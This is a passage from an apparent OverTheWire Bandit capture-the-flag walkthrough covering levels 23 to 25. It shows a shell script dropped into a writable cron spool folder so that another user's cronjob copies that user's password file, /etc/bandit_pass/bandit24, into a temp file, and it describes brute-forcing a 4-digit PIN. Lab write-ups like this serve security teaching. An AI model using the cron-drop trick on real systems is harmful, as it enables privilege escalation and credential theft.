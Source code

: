 The script tells us that `bandit24` will execute any files with the owner `bandit23` as a cronjob.

```bash
bandit23@bandit:/tmp/tmp.Qu6GCb8DbZ$ ls -l /var/spool/bandit24/
total 4
drwxrwx-wx 13 root bandit24 4096 Feb  6 16:38 foo
```

Note that the `foo` folder is not readable to us `bandit23` but is writable and executable for others, so we can drop a shell script into the folder.

```bash
bandit23@bandit:~$ cd $(mktemp -d)
bandit23@bandit:/tmp/tmp.Qu6GCb8DbZ$ vim bandit24.sh
```

The following is the shell script used:

```bash
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/tmp.Qu6GCb8DbZ/password
```

Then we have to change the permissions of our files so the cronjob can appropriately write.

```bash
bandit23@bandit:/tmp/tmp.Qu6GCb8DbZ$ chmod +x bandit24.sh
bandit23@bandit:/tmp/tmp.Qu6GCb8DbZ$ chmod o+w /tmp/tmp.Qu6GCb8DbZ
bandit23@bandit:/tmp/tmp.Qu6GCb8DbZ$ ls -ld /tmp/tmp.Qu6GCb8DbZ
bandit23@bandit:/tmp/tmp.Qu6GCb8DbZ$ touch password
bandit23@bandit:/tmp/tmp.Qu6GCb8DbZ$ chmod o+w password
bandit23@bandit:/tmp/tmp.Qu6GCb8DbZ$ cp bandit24.sh /var/spool/bandit24/foo/
```

We need to make the `/tmp/` folder executable for others so it can be entered, the password file writable for others, and then the shell script executable for the user.

```bash
bandit23@bandit:/tmp/tmp.bQ0KmpWZ4e$ cat password 

```

## Bandit Level 24 → Level 25

### Description
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.
You do not need to create new connections each time

### Solution

```bash
bandit24@bandit:~$ cd $(mktemp -d)
bandit24@bandit:/tmp/tmp.UzcJSK15MY$ vim bandit25.sh
```
